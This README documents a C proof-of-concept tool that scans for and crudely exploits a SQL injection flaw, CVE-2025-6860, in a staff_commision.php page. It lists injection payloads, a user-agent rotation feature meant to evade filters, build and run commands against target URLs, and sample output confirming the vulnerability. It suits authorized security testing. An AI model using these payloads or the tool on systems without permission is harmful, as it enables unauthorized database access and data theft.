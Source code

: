 # CVE-2025-6860 Exploit Tool

A proof‑of‑concept command‑line tool in C for detecting (and rudimentary exploiting) the SQL injection vulnerability **CVE‑2025‑6860** in `staff_commision.php` (parameters `fromdate` & `todate`). Leverages **libcurl** for HTTP requests, rotates through common payloads & user‑agents, scans responses for SQL error patterns, and emits colorful, syscall‑driven console output.

##  Features

- **Automatic payload rotation**  
  Tries a variety of SQL injection payloads (`' OR 1 -- -`, `admin' or '1'='1`, `-1 UNION SELECT 1`, …) against both `fromdate` and `todate`.

- **Dynamic User‑Agent cycling**  
  Rotates through a list of realistic browser UA strings to evade simple filters.

- **Libcurl‑powered HTTP**  
  Follows redirects, disables SSL verification (for testing), custom headers.

- **Low‑level syscalls for I/O**  
  Uses `syscall(write)` instead of `printf()` for colored & timely messaging.

- **Response analysis**  
  Scans server replies for 50+ SQL error signatures (MySQL, PostgreSQL, Oracle, MSSQL, OLE‑DB, ODBC, Hibernate, etc.).

- **ANSI‑colored output**  
  Clear success / failure / informational messages in green, blue, red.


##  Prerequisites

- **gcc** (or any recent C compiler with Linux x86_64 support)
- **libcurl** development headers
- **argparse.c/h** (bundled in this repo)

On Debian/Ubuntu:
sudo apt update
sudo apt install -y build-essential libcurl4-openssl-dev

## Build : 
gcc exploit.c argparse.c -o exploit -lcurl

## Usage :
./exploit -u "http://target.com/panel/staff_commision.php?fromdate=&todate="
-u, --url
Target URL template, include the base path and empty parameters.

Example :
./exploit -u "http://vulnweb.com/panel/staff_commision.php?fromdate=&todate="
If vulnerable, you’ll see:

[+] Exploitation of CVE-2025-6860 has begun...
[+] TARGET URL   : http://…?fromdate=&todate=
[+] Request sent successfully!
[+] FULL URL     : http://…?fromdate=' OR 1 -- -&todate=' OR 1 -- -
[+] HTTP CODE    : 200
[+] A suspicious word was found in response!
[+] Keyword      : You have an error in your SQL syntax
[+] The server suffers from a CVE-2025-6860 vulnerability!
On failure, it reports missing patterns or HTTP errors.

📂 File Structure :
├── exploit.c       # Main exploit logic
├── argparse.c      # Minimal argparse implementation
├── argparse.h      # Header for argparse.c
├── README.md       # This documentation
└── LICENSE         # MIT License file
📝 Contribute :
Fork the repo

Add payloads / error patterns / advanced extraction features

Disclaimer: Use this tool only on systems you own or have explicit permission to test. Unauthorized scanning or exploitation is illegal.

